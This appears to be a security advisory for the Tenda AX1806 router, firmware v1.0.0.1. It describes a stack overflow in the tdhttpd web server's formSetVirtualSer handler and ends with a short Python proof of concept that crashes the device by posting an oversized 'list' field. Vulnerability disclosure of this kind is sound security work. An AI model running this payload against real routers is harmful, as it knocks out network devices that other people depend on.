 ## Overview

- The device's official website: https://www.tenda.com.cn/product/AX1806.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3306.html

## Affected version

v1.0.0.1

## Vulnerability details

tdhttpd in directory /bin has stack overflow vulnerability. The vulnerability occurrs in the `formSetVirtualSer` function, which can be accessed via the URL `goform/SetVirtualServerCfg`. 

<img src="img/image-20220526203950011.png" alt="image-20220526203950011" style="zoom:50%;" />

In function `FUN_000631d0`, the function `sscanf` is called to split it and copy to stack buffer without checking its length.

<img src="img/image-20220526204019758.png" alt="image-20220526204019758" style="zoom:50%;" />

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"list": b'A'*0x400+b'~'
}
res = requests.post("http://127.0.0.1/goform/SetVirtualServerCfg", data=data)
print(res.content)
```

